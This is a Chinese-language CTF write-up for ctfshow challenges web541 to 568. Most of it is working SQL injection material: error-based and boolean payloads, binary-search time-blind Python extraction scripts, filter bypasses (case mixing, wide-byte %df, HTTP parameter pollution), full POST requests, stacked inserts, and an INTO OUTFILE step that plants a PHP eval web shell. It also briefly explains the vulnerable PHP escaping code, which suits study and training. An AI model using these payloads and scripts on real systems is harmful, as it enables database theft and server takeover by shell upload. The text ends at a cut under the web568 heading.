        #payload1 = f"admin' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='flag'),{i},1))>{mid},sleep(3),0)-- "
        payload1 = f"admin' and if(ascii(substr((select flag4 from ctfshow.flag),{i},1))>{mid},sleep(3),0)-- "
        data1 = {
            "username": payload1,
            "password": "1",
            "re_password": "1",
            'submit': 'Register'
        }
        r1 = session.post(url1, data=data1)

        #登录账号
        data2 = {
            "login_user" : payload1,
            "login_password" : "1",
            'mysubmit': 'Login'
        }
        r2 = session.post(url3, data=data2)

        #触发注入
        data3 = {
            "current_password" : "1",
            "password": "1",
            "re_password": "1",
            'submit': 'Reset'
        }

        start = time.time()
        r3 = session.post(url2, data=data3)
        end = time.time() - start
        if end > 2.5:
            head = mid + 1
        else:
            tail = mid

    if head != 32 :
        target += chr(head)
        print(target)
    else :
        break
print(target)
```

## web541&542

### #过滤and和or

页面提示过滤了and和or，用管道符绕过就行了，`and`用`&&`替换，`or`用`||`替换，当然也可以用双写去绕过，因为后面打注入的时候需要绕过，刚好这里只是做了一个替换的过滤

```
?id=-1'||'1'='1'--+回显
?id=-1'||'1'='2'--+无回显
```

后面的话可以打盲注也可以打报错注入，不过我自己报错注入学的比较少，所以还是选择迎难而上 打extractvalue报错

```
?id=-1'||extractvalue(1,concat(0x7e,(select version()),0x7e))--+

?id=-1'||extractvalue(1,concat(0x7e,(select group_concat(schema_name)from infoorrmation_schema.schemata),0x7e))--+

?id=-1'||extractvalue(1,concat(0x7e,(select group_concat(table_name)from infoorrmation_schema.tables where table_schema='ctfshow'),0x7e))--+

?id=-1'||extractvalue(1,concat(0x7e,(select group_concat(column_name)from infoorrmation_schema.columns where table_name='flags'),0x7e))--+

?id=-1'||extractvalue(1,concat(0x7e,left((select flag4s from ctfshow.flags),30),0x7e))--+
?id=-1'||extractvalue(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e))--+
```

## web543

### #增加过滤space和注释

这道题增加过滤了空格和注释，注释可以用单引号主动闭合，空格的话我发现编码绕不过去，只能用括号绕过了

其实报错注入的话也是不怎么需要空格的，可以打报错注入

```mysql
?id=-1'||updatexml(1,concat(0x7e,(version()),0x7e),1)||'

?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(schema_name))from(infoorrmation_schema.schemata)),0x7e),1)||'

?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='ctfshow')),0x7e),1)||'

?id=-1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='flags')),0x7e),1)||'
```

盲注也是可以的

```mysql
?id=0'||if(ascii(substr((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='ctfshow')),{i},1))>{mid},1,0)||'0
```

## web544

### #增加过滤space和注释

这次就用盲注吧，不过这里得用id=0，id=-1的结果是查得出来的

```
?id=0'||if(1>0,1,0)||'有回显
?id=0'||if(1<0,1,0)||'无回显
```

然后写脚本

```python
import requests

url = "http://8189ea51-4f5f-49f1-b344-3b556d3c79ce.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"?id=0'||if(ascii(substr((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='ctfshow')),{i},1))>{mid},1,0)||'"
        #payload = f"?id=0'||if(ascii(substr((select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='flags')),{i},1))>{mid},1,0)||'"
        payload = f"?id=0'||if(ascii(substr((select(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0)||'"
        r = requests.get(url + payload)
        if "Dumb" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web545

### #单引号增加过滤union和select

这次好像and和or没被过滤了，但是过滤了union和select，可以用大小写或者双写绕过

```
?id=-1'||updatexml(1,concat(0x7e,(sElect(group_concat(table_name))from(information_schema.tables)where(table_schema='ctfshow')),0x7e),1)||'

?id=-1'||updatexml(1,concat(0x7e,(sElect(group_concat(column_name))from(information_schema.columns)where(table_name='flags')),0x7e),1)||'

?id=-1'||updatexml(1,concat(0x7e,left((sElect(flag4s)from(ctfshow.flags)),30),0x7e),1)||'
?id=-1'||updatexml(1,concat(0x7e,right((sElect(flag4s)from(ctfshow.flags)),30),0x7e),1)||'
```

## web546

### #双引号增加过滤union和select

```
?id=0"||0||" 无回显
?id=0"||1||" 有回显
```

好像报错信息被禁用了无法打报错注入，那就打盲注吧

```
?id=0"||if(ascii(substr((sElect(version())),1,1))>0,1,0)||" 有回显
?id=0"||if(ascii(substr((sElect(version())),1,1))<0,1,0)||" 无回显
```

写脚本

```python
import requests

url = "http://f4301b5e-9fd1-4fcb-b46a-20176eba89fa.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f'?id=0"||if(ascii(substr((sElect(group_concat(table_name))from(information_schema.tables)where(table_schema=\'ctfshow\')),{i},1))>{mid},1,0)||"'
        #payload = f'?id=0"||if(ascii(substr((sElect(group_concat(column_name))from(information_schema.columns)where(table_name=\'flags\')),{i},1))>{mid},1,0)||"'
        payload = f'?id=0"||if(ascii(substr((sElect(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0)||"'
        r = requests.get(url + payload)
        if "Dumb" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

我发现union和select的一些大小写格式也是被过滤的

```
union Union UNION select Select SELECT
```

## web547&548

### #单引号+括号增加过滤union和select

```
?id=0')||0||(' 无回显
?id=0')||1||(' 有回显
```

这道题也不能用报错注入

```python
import requests

url = "http://30af16dd-d082-4c7d-9485-b4b0acbc4aec.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        #payload = f"?id=0')||if(ascii(substr((sElect(group_concat(table_name))from(information_schema.tables)where(table_schema='ctfshow')),{i},1))>{mid},1,0)||('"
        #payload = f"?id=0')||if(ascii(substr((sElect(group_concat(column_name))from(information_schema.columns)where(table_name='flags')),{i},1))>{mid},1,0)||('"
        payload = f"?id=0')||if(ascii(substr((sElect(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0)||('"
        r = requests.get(url + payload)
        if "Dumb" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web549

### #单引号+Http参数污染

这道题的话其实没怎么看懂，好像只能输入数字？

其实就是两层服务器，具体架构如下



一层服务器也就是tomcat的jsp型服务器负责对传入数据进行过滤和处理，就相当于WAF（Web应用防火墙）

然后真正处理查询语句的服务器是apache的php服务器，但是测试发现我们传入一个参数的话他会检测参数的内容是否为数字，但是如果我们同时传入两个参数的话Apache PHP 会解析最后一个参数，Tomcat JSP 会解析第一个参数，所以我们可以利用第二个参数进行注入

deepseek给了一个很好的参数处理流程图



然后我们测试一下

```
?id=1&id=2
```

成功返回id为2的数据结果，所以真正被执行的是第二个参数

后面的话直接打联合注入就行

```
?id=1&id=-1' union select 1,2,3--+

?id=1&id=-1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow')--+

?id=1&id=-1' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='flags')--+

?id=1&id=-1' union select 1,2,(select flag4s from ctfshow.flags)--+
```

## web550

### #双引号+Http参数污染

和上一题是一样的，不过闭合方式变成了双引号闭合

## web551

### #双引号括号+Http参数污染

和上一题是一样的，不过闭合方式变成了双引号括号闭合

## web552

### #单引号宽字节注入1

这里有对传入值的预处理，假如我们传入`1'`



可以看到返回的值的单引号被转义了，并且还返回了十六进制字符串的结果，既然被转义的话，那我们看看是否能将单引号转义呢

`%df'`=>`%df\'`（单引号会被加上转义字符\）

`%df\'`=>`%df%5c'`（\的十六进制为%5c）

`%df%5c'`=>`縗'`（GBK编码时会认为这时一个宽字节）

这样就会使得单引号被逃逸出去

试一下

```
?id=%df' 出现报错
?id=%df'or 1--+
```

发现成功回显，那我们正常打注入

```
?id=%df'union select 1,2,3--+
?id=%df'union select 1,2,(select group_concat(table_name)from information_schema.tables)--+
?id=%df'union select 1,2,(select group_concat(column_name)from information_schema.columns)--+
?id=%df'union select 1,2,(select flag4s from ctfshow.flags)--+
```

查表时没法用where table_schema='ctfshow'里面有`'`，但是因为前面的字符串逃逸了，后面的%df可能被认为是字符串包裹的一部分？这里逃不过去

sqlmap中同时也存在宽字节绕过的脚本unmagicquotes.py

```
sqlmap -u "ip" --tamper="unmagicquotes.py" --batch
```

## web553

### #addslashes宽字节GET

这道题其实和上一题是一样的，只不过防御手法的实现不一样

web552的防御手法

```php
if(isset($_GET['id']))
$id=check_addslashes($_GET['id']);

# 在' " \ 等敏感字符前面添加反斜杠
function check_addslashes($string)
{        # \ 转换为 \\
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          将       # 将 ' 转为\"
    $string = preg_replace('/\'/i', '\\\'', $string);   
      # 将 " 转为\"
    $string = preg_replace('/\"/', "\\\"", $string);                                
    return $string;
}
```

web553的防御手法

```php
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}
```

`addslashes()` 函数返回在预定义字符之前添加反斜杠的字符串。

| 预定义字符 | 转义后 |
| ---------- | ------ |
| `\`        | `\\`   |
| `'`        | `\'`   |
| `"`        | `\"`   |

本质上这两个函数都是一样的，不过一个是自定义的一个是自带的

**Notice**：使用addslashes(),我们需要将 mysql_query 设置为binary的方式，才能防御此漏洞。

## web554

### #addslashes宽字节POST

```php
$uname = addslashes($uname1);
$passwd= addslashes($passwd1);
```

过滤方法是一样的，所以两个都可以注入

在Mysql注入天书中提到：在Post请求中，此处介绍一个新方法：将utf-8转换为 utf-16 或 utf-32，例如将 ' 转为utf-16的 �' 。这里的�是有由类似%%%的东西组成的，然后再加上 ' (即%27)，然后相当于urlencode后类似 %EF%BF%%BD%27 的东西，然后是宽字符漏铜，%EF%BF会组成一个中文字符，而%BD%27也会被当成中文字符，然后php不会进行转义。然后语句流到mysql的时候，Mysql会将三个%转为一个中文字符，然后剩下%27作为引号，以此进行注入。

```
uname=�' or 1--+&passwd=1
```

不知道为啥这里在页面传参没回显但是在yakit抓包传参就可以



最后的请求包

```
POST / HTTP/1.1
Host: b29ea5fa-d85c-4667-98a6-0249a32a933a.challenge.ctf.show
Connection: keep-alive
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://b29ea5fa-d85c-4667-98a6-0249a32a933a.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://b29ea5fa-d85c-4667-98a6-0249a32a933a.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8

uname=%df'union select 1,(select flag4s from ctfshow.flags)--+&passwd=1&submit=Submit
```

## web555

### #数字型的注入

这次虽然转义了，但是不影响我们数字型的注入

```
?id=0 or 1=1
```

然后直接打就行

```
?id=0 union select 1,2,(select flag4s from ctfshow.flags)
```

如果在查询语句中需要用到引号利用指明数据库名或表名的话，可以用子查询语句表示字符串

```
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=(select schema_name from information_schema.schemata limit 1))
```

通过limit限制查询内容，从而拿到我们需要的数据作为字符串去查询

## web556

### #mysql_real_escape_string宽字节GET

这次的话检测函数换成了mysql_real_escape_string

```php
$id=check_quotes($_GET['id']);

function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}
```

mysql_real_escape_string 会检测并转义如下危险字符：

| 危险字符 | 转义后 |
| -------- | ------ |
| `\`      | `\\`   |
| `'`      | `\'`   |
| `"`      | `\"`   |

正常注入就行

```
?id=-1%df' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=(select schema_name from information_schema.schemata limit 1))--+

?id=-1%df' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name=(select table_name from information_schema.tables limit 1))--+

?id=-1%df' union select 1,2,(select flag4s from ctfshow.flags)--+
```

## web557

### #mysql_real_escape_string宽字节POST

和556一样的函数处理，但是换成了POST传参，用yakit发包

``` php
POST / HTTP/1.1
Host: bbd41d07-549c-4094-b38a-fb8c3a7589c3.challenge.ctf.show
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://bbd41d07-549c-4094-b38a-fb8c3a7589c3.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://bbd41d07-549c-4094-b38a-fb8c3a7589c3.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8

uname=1%df'+union+select+1,(select+flag4s+from+ctfshow.flags)--+&passwd=1&submit=Submit
```

## web558

### #堆叠注入

先看看该题目堆叠注入的代码是怎么实现的

```
# id 参数直接带入到 SQL 语句中
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if (mysqli_multi_query($con1, $sql)):
    输出查询信息
else:
    print_r(mysqli_error($con1));
```

`mysqli_multi_query` 函数用于执行一个 SQL 语句，或者多个使用分号分隔的 SQL 语句。这个就是堆叠注入产生的原因，因为本身就支持多个 SQL 语句。

既然这样的话我们尝试插入数据

```
?id=20';insert into users(id,username,password) values (20,(select user()),"test")--+
?id=20
```

需要传两次，第一次是执行插入语句，第二次是查询

说明这里是可以进行堆叠注入的，那我们将注入的语句得到的结果插入表中

insert into插入语句是不能覆盖原有数据的，所以id得一直改新的

```
?id=1';insert into users(id,username,password) values (21,(select version()),"test")--+

?id=1';insert into users(id,username,password) values (22,(select group_concat(schema_name)from information_schema.schemata),"test")--+

?id=1';insert into users(id,username,password) values (24,(select group_concat(table_name)from information_schema.tables where table_schema='ctfshow'),"test")--+

?id=1';insert into users(id,username,password) values (26,(select group_concat(column_name)from information_schema.columns where table_name='flags'),"test")--+

?id=1';insert into users(id,username,password) values (27,(select group_concat(flag4s) from ctfshow.flags),"test")--+
```

不知道为什么，在爆flag和数据库的时候爆不出来，后面只能打联合注入了

```
?id=-1' union select 1,2,(select flag4s from ctfshow.flags)--+
```

## web559

### #数字型联合注入

直接打联合注入吧

```
?id=-1 union select 1,2,(select flag4s from ctfshow.flags)
```

## web560

### #单引号括号联合注入

```
?id=0') union select 1,2,3--+
```

和之前的相比只是闭合方式

```
?id=0') union select 1,2,(select flag4s from ctfshow.flags)--+
```

## web561

还是数字型联合注入？？？这是什么出题顺序，我甚至怀疑是不是我自己漏了知识点

## web562

### #POST单引号报错注入

一个登录界面

传入`1'/1'`有报错信息，但是这个貌似没有回显结果，考虑报错注入或者盲注吧

```
login_password=1%27&login_user=1&mysubmit=Login
```

测了一下注入点在password

```
login_password=1%27+or+(select+updatexml(1,concat(0x7e,(select version()),0x7e),1))--+&login_user=1&mysubmit=Login

login_password=1%27+or+(select+updatexml(1,concat(0x7e,(select flag4s from ctfshow.flags),0x7e),1))--+&login_user=1&mysubmit=Login

login_password=1%27+or+(select+updatexml(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e),1))--+&login_user=1&mysubmit=Login
```

## web563

### #POST单引号括号报错注入

```
login_password=1%27)+or+(select+updatexml(1,concat(0x7e,left((select flag4s from ctfshow.flags),30),0x7e),1))--+&login_user=1&mysubmit=Login

login_password=1%27+or+(select+updatexml(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e),1))--+&login_user=1&mysubmit=Login
```

## web564

### #order by报错注入

```php
# GET 方式获取 sort 参数
$id=$_GET['sort'];

# 直接将 id 带入 SQL 中
$sql = "SELECT * FROM users ORDER BY $id";

if 查询成功：
    输出查询信息
else：
    print_r(mysql_error());
```

order by 后面不能跟联合注入，例如我们传入?sort=1



此时结果集会按照第一列的顺序排列输出，那么这里的话可以打报错注入或者时间盲注

如果是时间盲注的话直接在后面加上注入语句就行了

```
if(substr(database(),{i},1)='{char}',sleep(0.05),0)
```

```python
import requests
import time

url = "http://2b259308-bc30-412a-ac3b-7e8977e97f94.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        payload = f"?sort=if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep(0.25),1)"

        start = time.time()
        r = requests.get(url + payload)
        end = time.time() - start
        if end > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

当然也可以直接用报错注入

```
/?sort=1'and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+
```

另外也可以传马，这种方法我没有成功，可能设置了权限吧

## web565

### #单引号 order by报错注入

```
/?sort=1'and updatexml(1,concat(0x7e,(select flag4s from ctfshow.flags),0x7e),1)--+
/?sort=1'and updatexml(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e),1)--+
```

## web566

### #order by盲注

和 上题 相比少了报错注入，时间盲注依然可以正常使用

```
?sort=if(1,sleep(0.25),1)
```

```python
import requests
import time

url = "http://a67753c2-c7b7-42dd-a6ba-85be30c1e30d.challenge.ctf.show/"
i = 0
target = ""

while True:
    i += 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) // 2

        payload = f"?sort=if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep(0.25),1)"

        start = time.time()
        r = requests.get(url + payload)
        end = time.time() - start
        if end > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        target += chr(head)
        print(target)
    else:
        break
print(target)

```

## web567

### #order by 写文件

盲注打太慢了，换一种方法，用line terminated by 写文件

```
/?sort=1 into outfile "/var/www/html/1.php" lines terminated by 0x3c3f706870206576616c28245f504f53545b315d293b3f3e2020--+

0x3c3f706870206576616c28245f504f53545b315d293b3f3e2020--+是<?php eval($_POST[1]);?>  的十六进制
```

访问后连蚁剑

找到数据库文件



连数据库拿flag就行





这里使用的是mysqli_multi_query()函数，而之前使用的是mysqli_query()。区别在于mysqli_multi_query()可以执行多个sql 语句，而mysqli_query()只能执行一个sql 语句。因此我们可以注入执行多个sql 语句注入 statcked injection。

## web568

### #单引号order by 写文件

```
